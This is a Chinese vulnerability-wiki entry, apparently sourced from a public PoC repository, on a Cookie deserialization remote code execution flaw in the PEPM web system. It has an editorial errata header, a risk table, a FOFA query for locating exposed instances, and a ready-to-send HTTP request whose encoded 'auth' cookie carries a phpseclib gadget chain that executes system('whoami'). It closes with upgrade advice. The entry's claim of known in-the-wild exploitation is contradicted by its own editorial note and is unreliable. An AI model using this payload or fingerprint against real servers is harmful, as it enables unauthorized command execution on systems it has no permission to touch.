

# PEPM Cookie 远程代码执行漏洞(XVE-2024-16919)

> 指纹历史字段校订（2026-10-04）：现有完整平台查询保持原值；旧未核字段中的残片逐字迁入 `previous_*`。此迁移不代表已确定原文其他谓词的组合意图，未给出的 AND/OR 不猜补。后文残片字段的旧诊断描述校订前状态，查询仍不证明资产受影响。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：PEPM Web系统
- 文献类型：Cookie反序列化RCE请求
- 版本、权限及部署边界：<V6.7.3.20240507.Release；可控auth Cookie反序列化及phpseclib gadget依赖
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. cnvd字段装XVE编号属于命名空间错误，不应当作CNVD或CVE；fofa header=残缺而正文完整
2. 与PEPM系统Cookie请求头RCE篇auth序列化载荷相同，本篇补版本/XVE/截图，另一篇补原始语雀来源
3. 在野已知没有案例/来源佐证，PoC/EXP公开和实际在野利用须分开
4. 缺phpseclib/PHP版本与入口鉴权说明，任意PHP执行上下文受服务权限，缺可读结果文本
5. 请求未围栏、版本修复无厂商公告；实际Web服务非桌面

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/SourByte05/Vulnerability-Wiki-PoC>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

# 漏洞描述

PEPM系统存在远程代码执行漏洞，Cookie的auth字段存在反序列化漏洞，攻击者可构造反序列化链生成恶意数据，执行任意PHP代码。

影响版本

PEPM  < V6.7.3.20240507.Release

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：header="pepm"

POC/EXP：

```http
GET / HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: auth=a%3A1%3A%7Bi%3A0%3BO%3A18%3A%22phpseclib%5CNet%5CSSH1%22%3A2%3A%7Bs%3A6%3A%22bitmap%22%3Bi%3A1%3Bs%3A6%3A%22crypto%22%3BO%3A19%3A%22phpseclib%5CCrypt%5CAES%22%3A8%3A%7Bs%3A6%3A%22bitmap%22%3Bi%3A1%3Bs%3A6%3A%22crypto%22%3Bi%3A1%3Bs%3A10%3A%22block_size%22%3BN%3Bs%3A12%3A%22inline_crypt%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A25%3A%22phpseclib%5CCrypt%5CTripleDES%22%3A6%3A%7Bs%3A10%3A%22block_size%22%3Bs%3A45%3A%221%29%7B%7D%7D%7D%3B%20ob_clean%28%29%3Bsystem%28%27whoami%27%29%3Bdie%28%29%3B%20%3F%3E%22%3Bs%3A12%3A%22inline_crypt%22%3BN%3Bs%3A16%3A%22use_inline_crypt%22%3Bi%3A1%3Bs%3A7%3A%22changed%22%3Bi%3A0%3Bs%3A6%3A%22engine%22%3Bi%3A1%3Bs%3A4%3A%22mode%22%3Bi%3A1%3B%7Di%3A1%3Bs%3A26%3A%22_createInlineCryptFunction%22%3B%7Ds%3A16%3A%22use_inline_crypt%22%3Bi%3A1%3Bs%3A7%3A%22changed%22%3Bi%3A0%3Bs%3A6%3A%22engine%22%3Bi%3A1%3Bs%3A4%3A%22mode%22%3Bi%3A1%3B%7D%7D%7D
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```




# 修复方案

1. 关闭互联网暴露面或接口设置访问权限

   升级至 V6.7.3.20240507.Release 及以上版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
